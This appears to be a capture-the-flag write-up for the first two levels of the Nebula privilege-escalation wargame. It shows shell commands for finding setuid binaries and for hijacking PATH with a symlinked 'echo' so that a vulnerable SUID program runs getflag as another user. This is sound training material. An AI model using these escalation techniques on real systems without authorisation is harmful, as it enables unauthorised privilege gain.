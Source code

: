 ### Level00

The first level is about finding a program with setuid bit set. Upon googling, I found that there is a find command option which can be used to find files with speficic permission bits. 

`find / -perm 4000` gives all files or directories with SUID bit in root directory. After running it and going through results, /bin/.../flag00 seems interesting. When we run the binary, it is run as `flag00` user due to the SUID bit. 

```
flag00@nebula:/bin/...$ ls -al
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00

level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!

flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```


### Level01

After looking at the source code of this binary, I remembered a similar challenge from a software security course during my grad school. 
The *gid_t* and *uid_t* are actually aliases for `unsigned int` data type.  `getegid()` and `geteuid()` get the effective groupID and effective userID of the process which is `flag01` because the SUID bit is set. Then the real ,effective and and saved userID of current process is changed to `flag01` and the echo command is run. 

Whenever Linux executes a command, it searches the directories specified in PATH environment variable for the corresponding binary. Here, to complete the challenge, we need to execute `/bin/getflag` as the user `flag01`. The first step is to alter the PATH variable so that Linux will search for our folder (/home/level01) first.   

```
export PATH=/home/level01:$PATH

level01@nebula:~$ echo $PATH
/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Then we create a file called as echo in the `/home/level01` directory,  which is a symbolic link to the `/bin/getflag` binary. 

```
level01@nebula:~$ ln -s /bin/getflag echo

level01@nebula:~$ file echo 
echo: symbolic link to `/bin/getflag'

level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account

```

